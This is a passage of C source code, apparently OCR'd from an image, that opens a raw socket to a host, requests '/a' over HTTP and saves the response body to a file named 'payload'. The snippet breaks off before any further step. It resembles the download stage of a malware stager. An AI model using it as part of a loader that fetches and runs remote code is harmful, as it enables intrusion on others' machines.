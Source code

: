 ```
    const char *path = "/a";
    const char *output_file = "payload";
    const int port = 80;

    struct sockaddr_in server_address;
    int sockfd, filefd;
    char request[256];
    char buffer[BUFFER_SIZE];
    ssize_t bytes_read;
    int start_writing = 0;  // Flag to start writing to file

    // Create socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        fprintf(stderr, "Error creating socket\n");
        return 1;
    }

    // Set server address
    memset(&server_address, 0, sizeof(server_address));
    server_address.sin_family = AF_INET;
    server_address.sin_port = htons(port);
    if (inet_pton(AF_INET, host, &(server_address.sin_addr)) <= 0) {
        fprintf(stderr, "Invalid address or address not supported\n");
        close(sockfd);
        return 1;
    }

    // Connect to server
    if (connect(sockfd, (struct sockaddr *)&server_address, sizeof(server_address)) < 0) {
        fprintf(stderr, "Error connecting to server\n");
        close(sockfd);
        return 1;
    }

    // Send HTTP GET request
    snprintf(request, sizeof(request), "GET %s HTTP/1.1\r\nHost: %s\r\n\r\n", path, host);
    if (write(sockfd, request, strlen(request)) < 0) {
        fprintf(stderr, "Error sending request\n");
        close(sockfd);
        return 1;
    }

    // Open output file
    filefd = open(output_file, O_WRONLY | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
    if (filefd < 0) {
        fprintf(stderr, "Error opening file for writing\n");
        close(sockfd);
        return 1;
    }

    // Read and write response data
    while ((bytes_read = read(sockfd, buffer, BUFFER_SIZE)) > 0) {
        // Check if the response headers have ended
        if (!start_writing) {
            char *body_start = strstr(buffer, "\r\n\r\n");
            if (body_start != NULL) {
                start_writing = 1;
                bytes_read -= (body_start - buffer + 4);
                memcpy(buffer, body_start + 4, bytes_read);
            } else {
                continue;
            }
```